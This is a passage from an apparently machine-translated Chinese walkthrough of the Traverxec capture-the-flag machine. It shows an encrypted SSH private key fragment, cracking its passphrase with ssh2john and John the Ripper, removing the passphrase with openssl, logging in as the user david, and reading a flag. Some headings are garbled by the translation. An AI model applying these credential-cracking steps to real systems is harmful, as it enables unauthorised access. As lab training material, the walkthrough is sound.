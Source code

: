     seyeH/feG19TlUaMdvHZK/2qfy8pwwdr9sg75x4hPpJJ8YauhWorCN4LPJV+wfCG
    tuiBPfZy+ZPklLkOneIggoruLkVGW4k4651pwekZnjsT8IMM3jndLNSRkjxCTX3W
    KzW9VFPujSQZnHM9Jho6J8O8LTzl+s6GjPpFxjo2Ar2nPwjofdQejPBeO7kXwDFU
    RJUpcsAtpHAbXaJI9LFyX8IhQ8frTOOLuBMmuSEwhz9KVjw2kiLBLyKS+sUT9/V7
    HHVHW47Y/EVFgrEXKu0OP8rFtYULQ+7k7nfb7fHIgKJ/6QYZe69r0AXEOtv44zIc
    Y1OMGryQp5CVztcCHLyS/9GsRB0d0TtlqY2LXk+1nuYPyyZJhyngE7bP9jsp+hec
    

### 破解钥匙

现在，我将使用 和 来破解 SSH 密钥上的密码：`ssh2john.py``john`

    root@kali# /opt/john/run/ssh2john.py home/david/.ssh/id_rsa > id_rsa.john
    
    root@kali# /opt/john/run/john id_rsa.john --wordlist=/usr/share/wordlists/rockyou.txt
    Using default input encoding: UTF-8
    Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
    Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
    Cost 2 (iteration count) is 1 for all loaded hashes
    Will run 3 OpenMP threads
    Note: This format may emit false positives, so it will keep trying even after
    finding a possible candidate.
    Press 'q' or Ctrl-C to abort, almost any other key for status
    hunter           (home/david/.ssh/id_rsa)
    1g 0:00:00:03 DONE (2019-11-22 13:20) 0.3289g/s 4717Kp/s 4717Kc/s 4717KC/s     1990..*7¡Vamos!
    Session completed
    

我喜欢创建一个没有密码保护的副本以供将来使用：

    root@kali# openssl rsa -in home/david/.ssh/id_rsa -out ~/id_rsa_traverxec_david 
    Enter pass phrase for home/david/.ssh/id_rsa:
    writing RSA key
    

### 外壳覆盖固态混合苯

现在我可以以大卫的身份通过SSH连接：

    root@kali# ssh -i ~/id_rsa_traverxec_david david@10.10.10.165
    Linux traverxec 4.19.0-6-amd64 #1 SMP Debian 4.19.67-2+deb10u1 (2019-09-20) x86_64
    Last login: Fri Nov 22 04:55:08 2019 from 10.10.14.59
    david@traverxec:~$
    

并抓取 ：`user.txt`

    david@traverxec:~$ cat user.txt 
    7db0b484************************
    

## 普里夫：大卫->根

### 列举

在 david 的主目录中，在 旁边有一个目录：`user.txt``bin`
